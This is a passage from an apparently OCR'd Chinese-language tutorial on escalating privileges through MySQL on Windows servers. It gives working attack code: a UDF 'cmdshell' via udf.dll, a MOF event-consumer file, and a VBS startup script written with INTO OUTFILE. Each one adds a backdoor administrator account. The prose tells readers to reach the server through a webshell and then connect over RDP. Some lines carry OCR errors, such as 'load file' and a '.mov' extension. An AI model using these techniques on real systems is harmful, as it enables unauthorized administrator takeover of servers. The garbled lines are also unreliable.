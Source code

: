 ```basic
create function cmdshell returns string soname ‘udf.dll’
select cmdshell(‘net user arsch arsch /add’);
select cmdshell(‘net localgroup administrators arsch /add’);

drop function cmdshell;
```

该目录默认是不存在的，这就需要我们使用webshell找到MYSQL的安装目录，并在安装目录下创建lib\plugin文件夹，然后将udf.dll文件导出到该目录即可。



2.  mof提权

```basic
#pragma namespace("\\\\.\\root\\subscription")

instance of __EventFilter as $EventFilter
{
EventNamespace = "Root\\Cimv2";
Name  = "filtP2";
Query = "Select * From __InstanceModificationEvent "
"Where TargetInstance Isa \"Win32_LocalTime\" "
"And TargetInstance.Second = 5";
QueryLanguage = "WQL";
};

instance of ActiveScriptEventConsumer as $Consumer
{
Name = "consPCSV2";
ScriptingEngine = "JScript";
ScriptText =
"var WSH = new ActiveXObject(\"WScript.Shell\")\nWSH.run(\"net.exe user waitalone waitalone.cn /add\")";
};

instance of __FilterToConsumerBinding
{
Consumer   = $Consumer;
Filter = $EventFilter;
};
```

其中的第18行的命令，上传前请自己更改。


执行load_file及into dumpfile把文件导出到正确的位置即可。

```basic
select load file('c:/wmpub/nullevt.mof') into dumpfile 'c:/windows/system32/wbem/mof/nullevt.mov'
```

  执行成功后，即可添加一个普通用户，然后你可以更改命令，再上传导出执行把用户提升到管理员权限，然后3389连接之就ok了。

```basic
（1）UDF 提权 
create function cmdshell returns string soname ’udf.dll’ 
select cmdshell(’net user iis_user 123!@#abcABC /add’); 
select cmdshell(’net localgroup administrators iis_user /add’); 
select cmdshell(’regedit /s d:web3389.reg’); 
drop function cmdshell; 
select cmdshell(’netstat -an’); 
          
（2）VBS 启动项提权 
create table a (cmd text); 
insert into a values ("set wshshell=createobject (""wscript.shell"") " ); 
insert into a values ("a=wshshell.run (""cmd.exe /c net user iis_user 123!@#abcABC/add"",0) " );
insert into a values ("b=wshshell.run (""cmd.exe /c net localgroup administrators iis_user /add"",0) " ); 
select * from a into outfile "C:\Documents and Settings\All Users\「开始」 菜单\程序\启动\a.vbs"; 
```